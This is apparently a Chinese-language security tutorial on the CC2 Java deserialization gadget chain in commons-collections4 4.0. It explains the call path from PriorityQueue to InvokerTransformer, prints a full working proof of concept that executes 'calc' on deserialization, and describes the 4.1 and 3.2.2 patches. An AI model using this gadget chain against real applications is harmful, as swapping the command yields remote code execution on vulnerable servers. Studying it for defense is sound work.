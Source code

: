 # 0x01 Preface

CC链提出时官方有两个`Commons Collections`版本

* commons-collections:commons-collections
* org.apache.commons:commons-collections4

两者的命名空间不冲突，可以共存在同⼀个项⽬中。

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

之前的利用链`CC1、CC3、CC6`在`commons-collections4`均能正常使用，不过方法名可能稍有变动。

CC链实际上就是一条`Serializable#readObject()`到`Transformer#transform()`的调用链

# 0x02 PriorityQueue

CC2中用到的两个类：

* `java.util.PriorityQueue`
* `org.apache.commons.collections4.comparators.TransformingComparator`

```java
public class PriorityQueue<E> extends AbstractQueue<E>
    implements java.io.Serializable {
    private int size = 0;

    private void readObject(java.io.ObjectInputStream s){
            s.defaultReadObject();
            s.readInt();
            queue = new Object[size];
            for (int i = 0; i < size; i++)
                queue[i] = s.readObject();
            heapify();
    }
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
}
```

```java
// TransformingComparator#compare
public int compare(final I obj1, final I obj2) {
    final O value1 = this.transformer.transform(obj1);
    final O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```

`PriorityQueue#readObject()` => `heapify()` => `siftDown()` => `siftDownUsingComparator() `=> `comparator.compare()` => `transformer.transform()`

* `heapify`
  `int i = (size >>> 1) - 1`得非负
* `siftDownUsingComparator`
  `half = size >>> 1`得大于上面的i

`PriorityQueue`构造函数不会给size赋初值，需要用反射去赋值

# 0x03 Weave POC

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(chainedTransformer);
        PriorityQueue pq = new PriorityQueue(comparator);
        setFieldValue(pq, "size", 4);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(pq);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

# 0x04 Patch

`org.apache.commons.collections4.comparators.TransformingComparator`
在commons-collections4.0以前是版本没有实现 Serializable接口

官方发布的新版本4.1和3.2.2用于修复CC链
3.2.2中 增加了⼀个⽅法`FunctorUtils#checkUnsafeSerialization`
⽤于检测反序列化是否安全，其会检查常⻅的危险Transformer类，当我们反序列化包含这些对象时就会抛出异常。
若开发者没有设置全局配置 `org.apache.commons.collections.enableUnsafeSerialization=true`
即默认情况下会抛出异常

4.1中 这几个危险的Transformer类不再实现 Serializable 接口，直接不能序列化和反序列化

因此CC2只能在commons-collections4.0上跑通。
